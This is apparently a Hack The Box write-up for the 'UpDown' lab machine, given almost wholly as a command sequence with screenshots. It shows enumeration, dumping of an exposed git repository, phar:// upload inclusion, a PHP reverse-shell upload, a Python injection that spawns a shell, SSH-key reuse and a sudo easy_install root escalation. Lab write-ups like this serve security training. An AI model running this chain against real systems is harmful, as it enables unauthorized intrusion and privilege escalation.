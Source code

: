 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.177
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.177/FUZZ -fs 277 -e .aspx,.php,.txt,.html,.sh
gobuster dir -u 10.10.11.177 -w /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://10.10.11.177/dev/ -w /usr/share/dirb/wordlists/common.txt
http://10.10.11.177/
http://10.10.11.177/dev/
http://10.10.11.177/dev/.git/
pip install git-dumper
git-dumper http://10.10.11.177/dev/.git /home/itsec/Documents/HTB-UpDown/dev/
git log
Proxy – Match and replace rules
http://dev.siteisup.htb/
echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt
http://dev.siteisup.htb/uploads/
http://dev.siteisup.htb/?page=phar://uploads/81d6840826b9f6ab35021cfbc006b9be/info.txt/info
https://github.com/teambi0s/dfunc-bypasser
./dfunc-bypasser.py --url 'http://dev.siteisup.htb/?page=phar://uploads/e744af4911ee9e365e53bebef0ee2496/info.txt/info'
nano rev.php
zip rev.zip rev.php
mv rev.zip rev.txt
cd /home/developer/dev
./siteisup
__import__('os').system('/bin/bash')
cd .ssh
chmod 600 id_rsa
ssh -i id_rsa developer@10.10.11.177
sudo –l
https://gtfobins.github.io/gtfobins/easy_install/
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.11.177
nmap -p- -T5 10.10.11.177
nmap -sU -T5 10.10.11.177
```
![image](https://github.com/regarmulia/HTB/assets/33616880/15bb628f-5350-404b-b2d7-eafb2335761d)

![image](https://github.com/regarmulia/HTB/assets/33616880/5fae680f-c693-4297-8d4f-fad45d708e18)

![image](https://github.com/regarmulia/HTB/assets/33616880/9e42e535-c455-4d85-9a9d-a039eb16e54c)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.177/FUZZ -fs 277 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/077ed537-45e8-4ea9-a060-f12c713317de)

```
gobuster dir -u 10.10.11.177 -w /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://10.10.11.177/dev/ -w /usr/share/dirb/wordlists/common.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a61a87b5-2384-4c18-ae4a-8205a3a644e5)

```
http://10.10.11.177/
http://10.10.11.177/dev/
http://10.10.11.177/dev/.git/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4d1ba772-886d-495b-95bd-41ee263f6786)

![image](https://github.com/regarmulia/HTB/assets/33616880/4027a9c2-5c52-457e-866a-f7cfee17108e)

![image](https://github.com/regarmulia/HTB/assets/33616880/535382da-97dd-4bc7-bc70-907ad859d45b)

```
pip install git-dumper
git-dumper http://10.10.11.177/dev/.git /home/itsec/Documents/HTB-UpDown/dev/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4204b7d4-86e5-4e5a-947e-75a493b4fe48)

![image](https://github.com/regarmulia/HTB/assets/33616880/80273182-2492-48e9-b019-065cb1185564)

![image](https://github.com/regarmulia/HTB/assets/33616880/f0a4a58e-1c6b-4703-8daf-0ff81cfbad8c)

```
git log
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e72fada-0ecf-4f5e-81af-79687122e623)

![image](https://github.com/regarmulia/HTB/assets/33616880/a720577a-bbc2-45fe-a3f7-db57d1c5cbda)

```
Proxy – Match and replace rules
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f976a607-593e-48e1-a9e3-6e52253ea074)

```
http://dev.siteisup.htb/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/97dc16bf-d314-4448-887b-3590a4e5f338)

![image](https://github.com/regarmulia/HTB/assets/33616880/031e235e-781f-46ac-83e3-8b3c2ec7a69f)

![image](https://github.com/regarmulia/HTB/assets/33616880/0838e7c3-ae2c-42ce-a472-bfe74caf82ab)

```
echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/652bec68-34c3-4bcb-b23b-cdd3072aff64)

```
http://dev.siteisup.htb/uploads/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d4792383-cb0f-4616-add7-2c23d4b235ae)

![image](https://github.com/regarmulia/HTB/assets/33616880/da408073-3391-482f-ab16-ebc049727f47)

```
http://dev.siteisup.htb/?page=phar://uploads/81d6840826b9f6ab35021cfbc006b9be/info.txt/info
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f3e5e9c-7c23-49e2-88e4-462971c8f3db)

```
https://github.com/teambi0s/dfunc-bypasser
./dfunc-bypasser.py --url 'http://dev.siteisup.htb/?page=phar://uploads/e744af4911ee9e365e53bebef0ee2496/info.txt/info'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d79e28d9-f6a5-457e-8072-707a93be3a57)

```
nano rev.php
zip rev.zip rev.php
mv rev.zip rev.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fe3d33c7-2356-4a7b-bf40-3ef2f4d2b221)

![image](https://github.com/regarmulia/HTB/assets/33616880/a2144978-4e6c-499a-8fdf-9cf5fd9ecd1f)

![image](https://github.com/regarmulia/HTB/assets/33616880/4c062487-c2f0-4abc-b1cc-87a0f86936db)

```
cd /home/developer/dev
```
![image](https://github.com/regarmulia/HTB/assets/33616880/11e376a2-b3fd-4ad4-ab4d-1d3531773f26)

```
./siteisup
__import__('os').system('/bin/bash')
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20f8a856-a577-4e6a-aa76-e4b3b771b94c)

```
cd .ssh
chmod 600 id_rsa
ssh -i id_rsa developer@10.10.11.177
```
![image](https://github.com/regarmulia/HTB/assets/33616880/35331faa-74b7-4450-b2db-63f77f1f9eab)

![image](https://github.com/regarmulia/HTB/assets/33616880/e668dfc6-5860-4451-9e77-3b599197e3db)

![image](https://github.com/regarmulia/HTB/assets/33616880/229d6715-841c-4ec2-9749-1a94b1b39e59)

![image](https://github.com/regarmulia/HTB/assets/33616880/f4a34c73-95a0-4f58-bb6e-5700695b4876)

```
sudo –l
https://gtfobins.github.io/gtfobins/easy_install/
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5a777a1d-ea59-4905-8cb4-e0b6c4947f8e)

![image](https://github.com/regarmulia/HTB/assets/33616880/5c5df04a-4057-40b9-b532-5d2eae8accad)

